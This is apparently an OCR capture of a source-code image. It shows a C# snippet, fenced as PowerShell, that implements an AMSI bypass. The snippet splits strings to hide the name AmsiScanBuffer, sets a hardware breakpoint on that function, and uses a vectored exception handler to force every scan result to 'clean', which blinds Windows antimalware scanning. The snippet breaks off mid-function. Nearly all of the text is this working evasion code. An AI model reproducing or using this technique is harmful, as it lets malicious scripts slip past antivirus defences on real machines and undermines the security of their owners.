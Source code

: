 ```powershell
    {
        static string a = "msi";
        static string b = "anB";
        static string c = "ff";
        static IntPtr BaseAddress = WinAPI.LoadLibrary("a" + a + ".dll");
        static IntPtr pABuF = WinAPI.GetProcAddress(BaseAddress, "A" + a + "Sc" + b + "u" + c + "er");
        static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(WinAPI.CONTEXT64)));
        
        public static void Bypass()
        {
            WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64();
            ctx.ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL;

            MethodInfo method = typeof(Amsi).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
            IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
            
            Marshal.StructureToPtr(ctx, pCtx, true);
            bool b = WinAPI.GetThreadContext((IntPtr)(-2), pCtx);
            ctx = (WinAPI.CONTEXT64)Marshal.PtrToStructure(pCtx, typeof(WinAPI.CONTEXT64));

            EnableBreakpoint(ctx, pABuF, 0);
            WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
        }
        
        public static long Handler(IntPtr exceptions)
        {
            WinAPI.EXCEPTION_POINTERS ep = new WinAPI.EXCEPTION_POINTERS();
            ep = (WinAPI.EXCEPTION_POINTERS)Marshal.PtrToStructure(exceptions, typeof(WinAPI.EXCEPTION_POINTERS));

            WinAPI.EXCEPTION_RECORD ExceptionRecord = new WinAPI.EXCEPTION_RECORD();
            ExceptionRecord = (WinAPI.EXCEPTION_RECORD)Marshal.PtrToStructure(ep.pExceptionRecord, typeof(WinAPI.EXCEPTION_RECORD));

            WinAPI.CONTEXT64 ContextRecord = new WinAPI.CONTEXT64();
            ContextRecord = (WinAPI.CONTEXT64)Marshal.PtrToStructure(ep.pContextRecord, typeof(WinAPI.CONTEXT64));

            if (ExceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && ExceptionRecord.ExceptionAddress == pABuF)
            {
                ulong ReturnAddress = (ulong)Marshal.ReadInt64((IntPtr)ContextRecord.Rsp);

                IntPtr ScanResult = Marshal.ReadIntPtr((IntPtr)(ContextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean

                Marshal.WriteInt32(ScanResult, 0, WinAPI.AMSI_RESULT_CLEAN);

                ContextRecord.Rip = ReturnAddress;
                ContextRecord.Rsp += 8;
                ContextRecord.Rax = 0; // S_OK
                
                Marshal.StructureToPtr(ContextRecord, ep.pContextRecord, true); //Paste our altered ctx back in TO THE RIGHT STRUCT
                return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
            }
            else
            {
                return WinAPI.EXCEPTION_CONTINUE_SEARCH;
            }
```